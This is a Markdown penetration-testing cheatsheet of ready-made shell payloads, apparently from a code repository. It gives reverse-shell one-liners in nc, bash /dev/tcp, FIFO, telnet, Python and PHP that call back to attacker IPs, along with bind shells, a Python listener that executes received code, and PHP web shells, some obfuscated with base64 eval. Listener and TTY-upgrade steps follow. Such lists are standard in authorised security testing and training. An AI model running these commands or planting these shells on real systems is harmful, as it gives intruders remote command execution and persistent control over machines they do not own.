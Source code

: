 # Shell Cheatsheet

## Reverse Shell

### Shell

```
nc -e /bin/sh 10.0.0.1 1234
```

When `-c` works:
```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

With `/dev/tcp`
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Using FIFO (Doesn't work with upgrading?)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Using `telnet` (When no `nc` and no `/dev/tcp` available). Listen with `nc -n -vv -l -p 2222`

```
rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Bind Shell

### Bash

```
port=4444; if [$# -eq 1]; then port=$1; fi; while true; do nc -lp $port -e /bin/bash;wait; done
```

### Telnet

Lazy Bind Shell using `telnet`:

Listen with `nc -n -vv -l -p 2222` and don't forget the `&` at the end
```
while true; do sleep 5; rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe; done &
```


### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```

### PHP

Reverse shell using a socket (cmd version)
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Reverse shell using a socket (file version)
```
<?php $sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

## Web Shell

### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code:
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Execute system command
```
<?php system(cmd);?>

<?php system("nc -e /bin/sh 10.0.0.1 1234");?>
```

## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Web Shells Introduction](https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
